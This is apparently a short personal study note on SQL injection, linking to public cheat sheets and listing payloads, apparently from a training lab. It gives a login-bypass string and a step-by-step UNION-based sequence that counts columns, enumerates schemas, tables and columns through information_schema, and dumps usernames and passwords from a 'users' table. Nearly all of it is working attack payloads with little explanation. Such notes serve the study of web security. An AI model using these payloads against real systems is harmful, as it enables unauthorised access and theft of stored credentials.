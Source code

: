 ____

https://tib3rius.com/sqli
https://portswigger.net/web-security/sql-injection/cheat-sheet

# Authentication bypass

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass

```sql
tom' or '1'='1
```

## Comments

```bash
'or id=5)#
```


# Union

```sql
' order by 4-- -
```

```sql
test'union select 1,2,3,4-- -
```

![[Pasted image 20240928125412.png]]

```sql
test'union select 1,2,3,schema_name from information_schema.schemata-- -
```

![[Pasted image 20240928125529.png]]

```sql
test'union select 1,2,3,table_name from information_schema.tables where table_schema = 'ilfreight'-- -
```

![[Pasted image 20240928125812.png]]

```sql
test'union select 1,2,3,column_name from information_schema.columns where table_name = 'users'-- -
```

![[Pasted image 20240928125855.png]]

```sql
test'union select 1,2,username,password from ilfreight.users-- -
```

![[Pasted image 20240928130056.png]]

